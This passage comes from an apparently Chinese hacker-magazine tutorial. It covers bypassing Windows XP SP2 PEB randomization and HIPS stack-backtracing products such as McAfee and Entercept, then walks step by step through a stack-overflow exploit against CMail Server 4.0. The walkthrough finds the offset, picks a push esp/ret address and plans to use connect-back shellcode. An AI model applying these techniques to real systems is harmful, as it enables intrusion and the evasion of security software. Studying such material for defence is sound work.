的所有可能值中，0x7ffde000 的概率最高（1/8），其他都是 1/16。尽管这种随机性很弱，但仍然无法预测，而且很多漏洞利用也不允许我们多次猜测尝试。

##### 2. 突破技术探究

——PEB 指针动态获取

从上面的例子中，我们知道 XP SP2 中进程 PEB 指针具有随机性，可能会影响 ShellCode 的编写和执行。但是通过实际例子，我发现如果用动态获取 PEB 指针的方法，漏洞可能还是可以利用的。这个例子还是前面那个 VC6 下编译生成的具有溢出漏洞的程序（图 5），其中 ShellCode 里获取 PEB 指针以及 Kernel32.dll 地址功能对应的汇编代码为：

```asm
mov eax, fs:0x30
// eax = PEB 指针
mov eax, [eax + 0x0c]
mov esi, [eax + 0x1c]
lodsd
mov ebp, [eax + 0x08]
// ebp = Kernel32.dll 基址
```

这样就不需要用现成的 Kernel32.dll 地址了，所有 API 函数地址都可以动态获得。其实在我以前写的关于突破防火墙 ShellCode 的例子里也是用的这种动态获取方式。好了，在 SP2 下编译生成可执行程序，在 Cmd 下执行，结果是可以成功添加用户，如图 18 所示。



图 18

尽管 SP2 上现在暂时没有出现很严重的可利用系统堆栈溢出漏洞，但结合这个例子，我们可以对漏洞利用技术作个猜想：不管 PEB 指针如何随机，都只是操作系统在管理进程时遵循的机制，我们可动态获取 PEB 指针；知道了 Kernel32.dll 地址，也就知道了其他 API 函数地址，ShellCode 也就写得出来了。这一点与在其他系统上的情况是一样的。换句话说，就是用动态获取的方式绕过 PEB 指针随机化。

上面这段只是我个人的推断，真实性取决于 SP2 管理系统进程和管理其他程序创建进程的机制是否一样。如果一样的话，那微软在 SP2 筑造的安全防御就如洪水冲堤一般，一旦出现缺口（系统漏洞），后果就不堪设想。

## 商用堆栈溢出保护软件技术 + 突破

讨论了前面两部分之后，我们接下来看一看商用堆栈溢出保护软件采用的技术，同样也分析一下对应的突破技术。

##### 1. 保护技术分析

随着 WIN32 下溢出技术研究的深入以及基于该漏洞的蠕虫、病毒威胁不断，不仅微软在下大力气进行防御，一些安全软件生产商也推出了自己的溢出保护软件，如 McAfee VirusScan Enterprise、NAI Entercept、Cisco Security Agent 等。它们有个统一的名字叫 Host Intrusion Prevention Systems（HIPS）。其中大家较熟悉的可能就是 McAfee，比较新的版本是 McAfee 8.0，如图 19 所示。传闻该软件在执行溢出保护时与金山词霸 2005 可能发生冲突。



图 19

有了初步认识后，照例我们还是先分析一下原理再说。这部分大家可以结合参考 PHRACK 62 期中《Bypassing_Win_BufferOverflow_Protection》一文（PHRACK 是权威黑客杂志，可惜据说 63 期后就要关门了）。

现在针对 WIN32 的溢出保护软件，基本都采用一种称为堆栈回溯（stack backtracing）的技术。堆栈回溯技术并非通过创建不可执行堆栈或禁止堆栈可执行属性来防止 ShellCode 执行，而是通过 hook API 来探测 ShellCode 的执行情况，进而给出报警。这里涉及的 hook 对象分为核心态函数和用户态 API 两类。

如果大家对于 hook API 还不熟悉，可以先看看这方面知识，我这里只简单讲讲。不论是 hook 核心态函数还是用户态 API，常用方法就是找到函数入口处，改写前 5 个字节为 `jmp xxxx` 这样的形式。这里的 `xxxx` 是完成我们指定功能的代码入口。执行完代码后，恢复原来被 hook 函数的前几个字节，然后跳转回去，执行函数本来的功能。

hook 系统提供的核心态函数，这些函数基本都是微软未公布的，包括函数名、参数个数和类型、返回值等都未知，因此难度较大。但由于相同功能的用户态 API 函数最终都可能调用同一个核心态函数，因此对核心态函数调用的检测更具直接性。堆栈回溯就是在 hook 核心态函数之后检测其当前调用环境。这些工作只能通过核心态程序来完成（如驱动程序），检测一般分下面几个步骤：

- 1. 通过 EBP 寄存器值获取函数的返回地址 `ret_addr`。  
- 2. 检测 `ret_addr` 所在页面的只读属性。因为代码段是只读的，而堆栈段是可写的，因此如果 `ret_addr` 页面可写，则认为发生了堆栈溢出。  
- 3. 第 2 步通过后，检测 `ret_addr` 是否在各模块加载范围内。API 函数都位于 DLL 中，DLL 加载地址一般在 0x10000000 及之后，而堆栈段一般在诸如 0x001XXXXX 这样的地址。因此如果 `ret_addr` 不在各模块加载范围内，则认为发生了堆栈溢出。  
- 4. 假设第 2、3 步都通过了，最后再检测 `ret_addr` 中指令是否为跳转指令（jmp 或 call）或紧接着一句跳转指令，是的话认为发生了堆栈溢出。  

再来看看用户态 API 函数调用的检测。用户态检测过程基本还是按照前面那几个步骤，只是需要 hook 的函数比核心态多一些，因为在用户态不同函数可能最终都会调用同样的核心态函数。

##### 2. 突破技术探究——利用检测机制存在的问题

要突破堆栈回溯技术在核心态的检测，《Bypassing_Win_BufferOverflow_Protection》作者提到了一种方法。因为堆栈回溯只能检测当前函数调用环境的合理性，如果能在 ShellCode 中伪造假的 EBP 和 `ret_addr` 进行覆盖，并使这两个值都满足前面那几个检测条件，就可能顺利通过检测。

- 1）利用软件检测机制中 API 版本不足的缺陷。WIN32 下 API 函数分为 Unicode 和 ASCII 两个版本，但一些溢出保护软件在检测时只检测其中一个版本的函数调用，这给了我们可乘之机。  
- 2）利用检测范围不宽的缺陷。用户态下完成相同功能的 API 函数可能不止一个。例如 NAI Entercept hook 了 Kernel32.dll 中的 GetProcAddress，但 ntdll.dll 中的 LdrGetProcedureAddress 完成的是与 GetProcAddress 相同的功能，却未被 hook。如果 ShellCode 中用 LdrGetProcedureAddress，则可躲避检测。  
- 3）利用检测深度不够的缺陷。例如 NAI Entercept 通过检测进程创建来防止 ShellCode 执行，于是它 hook WinExec 函数，但是 WinExec 的调用路径是：

```text
WinExec() -> CreateProcessA() -> CreateProcessInternalA()
```

而后两个函数没有被 hook。和前面一样，这里留下了后患。

最后，举个实际例子——McAfee 的溢出保护及突破方法。McAfee 对所有进程 hook 了 loadlibrarya、loadlibraryw、getprocaddress 等 API 函数，方法类似 API 截获：将这些函数开始几个字节改为 `call detectapiret`，即调用 entapi.dll 中某个检测函数（detectapiret）。该函数检查调用 getprocaddress 等函数的父函数是否处于堆或栈内，如果是，则报警并退出当前进程；否则回到 getprocaddress 等函数。但是，detectapiret 只是简单地将 `[esp+0x04]` 的值当作父函数返回地址，所以只要将其改为一个合法返回地址，再伪造一个函数调用环境即可。

#### 小结

本文对 WIN32 下一些经典的溢出保护技术做了分析，并探究了一些突破技术。但我毕竟刚开始学习和研究这方面技术，有些东西理解得也不是很深入。因此，如果有讲得不够清晰或不准确的地方，还请大家指出来帮助纠正。同时，我也希望这些内容对大家学习溢出技术有一些帮助，那样的话，我的目的也就达到了。和往期一样，留下我的 QQ：19013788，欢迎大家和我交流。

> 【本文涉及的代码（程序），请见随书光盘】

**脚本小子：** 常有读者抱怨写 Exploit 是多么多么困难，难以找到适合自己菜鸟特性的教程。虽然网上有很多教程，但大部分都是针对 *nix 类操作系统的，这无疑给菜鸟们设置了一道门槛。偶尔有一些心得，但是都难以找到合适软件加以实践。如果你是菜鸟，如果你想编写真正属于自己的 Exploit，该怎么办呢？

### 菜鸟版 Exploit



#### 编写指南

○ 文／F.Zh

从早期的 jdiq/ida 到 webdavx 漏洞，一直以来大家都是用大虾们写的溢出程序。在看过了很多溢出入门的文章后，我忍不住也试着学习一下。这些文字也算是一些心得体会，拿出来献丑的原因，一是和同样身为菜鸟的朋友们交流一下；二来还留下了一些问题，希望高手们看到后能够在百忙中抽出一点时间，指点一下迷津。

一般的溢出入门文章，都是自己写一个有弱点的程序然后来 Hack，感觉上总是有点不过瘾，所以我想试试弄一个实战的演习，偶然间就选定了 CMail Server 4.0。漏洞报告称这个 Mail 服务软件的 3.3 版本有漏洞，不过我在看的时候发现 4.0 版本存在相同的漏洞，也就拿它来做了实验（附带一句，这个 Mail 服务软件现在的最高版本是 5.2，已经是安全的）。其实就算你没有看过溢出的文章，我想只要有一点汇编语言的基础，我们一起走上这么一次，以后看见漏洞公告，一般的溢出程序就可以应付一下。

打开一个 VC 的窗口，OK，let’s go！安装好 CMail，我们先试试看触发这个溢出，在 cmd 窗口下面输入 `telnet localhost 110`，然后输入 USER 和一长串的 A，接着回车，“咣……”弹出了一个出错的窗口，上面写着“0x61616161 指令引用的 0x61616161 内存。该内存不能为 read”，如图 1 所示。

啊啊，如果你看过一些入门文章，应该知道这就是一个典型的栈溢出，不过不清楚也没有关系，我们一起做下去。

我们来写一个 C++ 的小程序，把我们刚才做的那些事情让计算机去做。不要小看这个程序，这可是 Exploit 的最初雏形，我们可以从这里一步一步地修改出最终的梦幻版本！



图1

CMailServer 执行我们的 1.cpp，看看，刚才的错误窗口又弹出来了。

好，到了这里，需要解释一些简单的东西。首先，0x61616161 是多少？我们不用去看这个十六进制数对应的数字，在 cmd.exe 窗口中按住 Alt 键再按小键盘上的 97（=0x61），然后一起放开，看到的是不是一个小写的“a”？这和我们刚才输入的大写“A”之间的关系绝不是巧合，这里留一个伏笔，我们到后面就知道是怎么一回事了。另外，怎么会出现这样的错误呢？其实是执行到内存中的 0x61616161 地址了，这个地址和我们刚才的输入有关系。换句话说，就是我们可以通过输入来改变程序的执行流程。现在我们就会想，既然能够控制程序的流程，那么能不能让程序做点什么呢？哈哈，这就是关键了！

把问题放在这里，我们先去解决另外一个令人困惑的问题，我们输入了这么多的“A”，到底是哪几个成为了上面那个错误对话框中的 0x61616161？或者，对于看过溢出入门文章的朋友们来说，怎么去快速定位溢出点呢？

再次回到 VC 下面，修改刚才的程序，在 main 函数中有这么一句：

```cpp
memset(szUser+5, 'A', 800);
```

这是在“USER”后面加上了 800 个“A”，如果加的是其他字符呢？修改一下，把这行程序替换掉：

```cpp
for(int i = 0; i < 800; i++)
memset(szUser + 5 + i, (char)(i % 100 + 100), 1);
```

再执行一下，这次出现的错误框成了“0x7f7e7d7c 指令引用的 0x7f7e7d7c 内存。该内存不能为 read”，如图 2 所示。



好，我们记录下这个数字，看来这次程序执行到内存中的 0x7f7e7d7c 地址去了。再次修改刚才的程序，把 `(char)(i % 100 + 100)` 中的取余改成整除：

```cpp
for(int i = 0; i < 800; i++)
memset(szUser + 5 + i, (char)(i / 100 + 100), 1);
```

再次启动 CMailServer，执行我们的小程序（光盘中附带的 2.cpp），这次出现的错误框成了“0x69696969 指令引用的 0x69696969 内存。该内存不能为 read”，如图 3 所示。



现在可以定位了。分析上两次操作：第一次是在“USER”后面不断加入 ASCII 码 100～199 之间的数字，第二次是以 100 为一段，数字分别是 100、101、102……由此可判断溢出位置与偏移，推断从第 524 个字符附近开始影响执行流。

### 程序执行到异常内存导致出错的关键！

再改一下程序，指定从第 524 开始的 4 个字符的地址。还要说明一点，因为计算机设计原因，我们输入的是“7c7d7e7f”，换成地址会倒过来成为“0x7f7e7d7c”。

```cpp
for(int i = 0; i < 800; i++)
memset(szUser + 5 + i, (char)(i / 100 + 100), 1);
*(int *)(szUser + 5 + 524) = 0x12347678;
```

代码如上修改后，程序会执行到 0x12347678 地址。运行后错误框变成“0x12347678 指令引用的 0x12347678 内存，该内存不能为 read”。这说明我们已经定位了溢出点，并可以控制程序流向。

那么让程序流到什么地方呢？理想情况是让 CMailServer 执行我们提交的代码，从而获得 Shell。下面开始借助 OllyDbg 调试。

先把挂掉的 CMailServer 打开，然后打开 OllyDbg，选择“文件”→“附加”，在弹窗中选择 CMailServer，确定后在“调试”菜单选择“运行”或按 F9，即可通过 OllyDbg 调试 CMailServer，如图 4 所示。



回到 VC 运行刚才程序，这次没有错误对话框，而是被 OllyDbg 截获。可在状态栏看到“正在执行[12347678]……”，说明程序确实执行到 0x12347678。

保持这个状态不要动，在地址子窗口中继续后续定位与利用步骤。

右键，选择“前往”，然后在对话框内输入 `esp`，看看到了什么地方。如图 6 所示，这就是我们输入的字符串，而在前面一点，就是我们输入的“0x12347678”。由于高位在前的缘故，变成了“78 76 34 12”，不过我们还是认得出来。





这里就是溢出的最关键地方。理论上我们可以直接定位，跳到 `0x02fd9014` 也就是 `esp` 的值上面去。注意，这个地址只是对我的机器而言，而且只在这一次运行中有效。`esp` 指向的内容是一定的，所以聪明的 Hacker 想了一个办法：在内存中寻找一个固定地址 A，这个地址 A 对应的指令是 `call esp`，然后把程序跳转地址指定为 A。在溢出时先到 A 处，再跳转到我们发送的字符串上面。如果字符串本身是可执行代码，计算机就会执行它。

> **脚本小子：** 定位“`call esp`”之类的指令在 Exploit 中非常重要。在不同版本中，同名动态链接库里的这类指令地址可能并不完全一样，这也是很多 Exploit 要针对特定操作系统和补丁情况的原因。如果能找到特定版本的这类地址，也可以自己修改这些地址以适应不同版本。

顺带解释一下为什么可以找到相对固定的 `call esp` 地址。Windows 会加载很多动态链接库，这些库在很多版本中的加载地址变化不大，所以找一个库里的 `jmp esp`/`call esp` 地址仍然较容易。

现成的也可以自己找。比如 lion 原来给过一个中文版 Windows 2000/XP/2003 通用的 `pop/pop/ret` 地址 `0x7ffa1571`。我们猜想这附近数据在这几个版本中可能相同，因此可以在附近找。`call esp`、`jmp esp` 和 `push esp/ret` 指令效果相同，前两个在 XP/2003 下可能失败，所以先看最后一个，例如 `0x7FFA9C1B`。

再次回到 VC，把跳转地址改成 `0x7FFA9C1B`，用 OllyDbg 调试 CMailServer。运行后已跳到 `esp` 地址上，虽然报错 `0x69696969`（一串非法指令）并停下，如图 7 所示。



把这串里的 `69` 换成 ShellCode 即可。我们先找一个现成的 ShellCode，把这里的 `69696969` 改掉。ShellCode 虽然重要，但溢出程序不一定要自己写，很多可直接使用。这里用的是 eyas 的 connect back ShellCode，MShell 函数也有固定格式。关于 ShellCode 制作可参考其他文章。

> **脚本小子：** MShell 函数用于将反向连接的 IP 地址和端口加入到 ShellCode 中，以便正确连接到指定的 IP 和端口。

打住一下，事情并不这么简单。拖动左下地址栏窗口滚动条，会发现附近连大写字母都没有。提交的数据已被修改，因此直接给 ShellCode 不行——就算会执行，也会异常，如图 8 所示。一般溢出文章到这里会先给个可运行 ShellCode 的结果。

## 初级篇

